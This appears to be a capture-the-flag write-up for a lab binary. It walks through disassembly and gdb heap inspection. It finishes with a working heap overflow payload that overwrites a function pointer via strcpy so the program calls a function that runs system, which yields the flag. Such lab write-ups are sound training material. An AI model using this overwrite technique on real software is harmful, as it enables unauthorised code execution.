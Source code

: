 # Write up

Through a quick check of the `level6` dissassembled code, we notice that the call address in stored in the eax register :
```
 80484a5:	ba 68 84 04 08       	mov    edx,0x8048468
 ...
 80484b8:	89 c2                	mov    edx,eax
 ...
 80484d0:	ff d0                	call   eax
```
Which calls a m function writing "Nope", we also have a n function calling system.
We have two malloc calls, one with a size of 64, the other with a size of 4.
We check a dummy payload to check the allocated size and get a segfault with 72 chars :
```
./level6 "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```
Which is as we expected (64 (1st malloc) + 4 (2nd malloc) + 4 offset bytes).
The stack here contains the pointer values (RAM addresses) for the allocated pointers in the heap.
Lets look those lines more closely :

```
 80484a5:	ba 68 84 04 08       	mov    edx,0x8048468
 80484aa:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484ae:	89 10                	mov    DWORD PTR [eax],edx
  ...
 80484ca:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484ce:	8b 00                	mov    eax,DWORD PTR [eax]
 80484d0:	ff d0                	call   eax
```
`esp+0x18` Contains here the 4 bytes malloc'ed address, which content is set to the `m` function address, this value is not meant no be changed.
By exploiting a Heap overflow through the strcpy call, we will have to change this value contents.
With GDB we search for the heap address by putting a break point after the malloc calls :
```
gdb ./level6
(gdb) break* 0x80484c5
(gdb) run AAAA
(gdb) info proc map
  ...
0x804a000  0x806b000    0x21000        0x0 [heap]
  ...
(gdb) x/120x 0x804a000
 ...
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048468      0x00000000      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
 ...
(gdb) find 0x804a000, 0x806b000, 0x08048468
0x804a050
warning: Unable to access target memory at 0x8069454, halting search.
1 pattern found.
```
Very interesting, we found our call address here which is stored at `0x804a050`.
However, we didn't found our AAAA (0x41414141) string, we have to put another breakpoint after the strcpy call, for example at the `0x80484d0` address.
```
(gdb) find 0x804a000, 0x806b000, 0x41414141
0x804a008
warning: Unable to access target memory at 0x806940c, halting search.
1 pattern found.
```
Bingo, we now know that after the 72nd char we start to overwrite the m address.
The following payload gives us the flag :
```
./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
```

## Sources

https://samsclass.info/127/proj/p7-heap0.htm